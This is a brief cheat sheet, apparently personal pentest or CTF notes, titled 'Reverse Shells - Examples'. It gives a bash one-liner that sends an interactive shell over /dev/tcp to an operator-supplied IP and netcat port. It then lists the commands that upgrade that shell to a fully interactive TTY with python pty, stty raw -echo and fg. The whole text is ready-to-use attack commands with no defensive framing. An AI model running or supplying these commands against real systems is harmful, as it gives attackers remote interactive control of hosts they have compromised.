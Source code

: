 # Reverse Shells - Examples

## Bash

	bash -c "bash -i >& /dev/tcp/<YOUR_IP>/<NETCAT_PORT> 0>&1"



## Fully interactive shell

In the reverse shell write

	python3 -c 'import pty;pty.spawn("/bin/bash")'

Put nc in the background
	CTRL+Z

	stty raw -echo
	fg
	export TERM=xterm